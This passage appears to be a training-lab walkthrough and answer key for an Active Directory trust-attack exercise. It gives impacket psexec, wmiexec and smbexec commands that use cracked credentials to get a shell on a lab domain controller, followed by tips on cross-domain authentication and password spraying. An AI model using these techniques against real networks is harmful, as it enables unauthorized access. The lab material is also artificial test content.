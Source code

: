 **🎯 Answer**: `[Cleartext password from successful hash crack]`

### **🏛️ Question 3: "Log in to the ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL Domain Controller using the Domain Admin account password submitted for question #2 and submit the contents of the flag.txt file on the Administrator desktop."**

**Solution:**
```bash
# Use cracked credentials to access target domain controller
# Method 1: PSExec with obtained credentials
impacket-psexec FREIGHTLOGISTICS.LOCAL/[cracked_account]@ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL

# Method 2: WMIExec alternative
impacket-wmiexec FREIGHTLOGISTICS.LOCAL/[cracked_account]@ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL

# Method 3: SMBExec option
impacket-smbexec FREIGHTLOGISTICS.LOCAL/[cracked_account]@ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL

# From gained shell, retrieve flag:
type C:\Users\Administrator\Desktop\flag.txt
```

**🎯 Answer**: `[Contents of flag.txt file]`

---

## ⚠️ **Attack Considerations**

### **DNS Configuration Management**
- **Requirement**: bloodhound-python needs FQDN resolution
- **Solution**: Edit `/etc/resolv.conf` for each target domain
- **Alternative**: Use host file entries for specific DC resolution
- **Restoration**: Backup original DNS settings before modification

### **Cross-Domain Authentication**
- **Credential format**: Use `user@domain.local` for cross-domain auth
- **Trust direction**: Verify bidirectional trust allows authentication
- **Tool compatibility**: Ensure Impacket tools support target domain format
- **Session management**: Consider authentication session timeouts

### **Password Reuse Assessment**
- **Similar accounts**: Check for matching account names across domains
- **Password spraying**: Test cracked passwords against multiple domains
- **Administrative overlap**: Identify shared administrative accounts
- **Risk documentation**: Document password reuse findings for client reporting

---

## 🔑 **Key Takeaways**
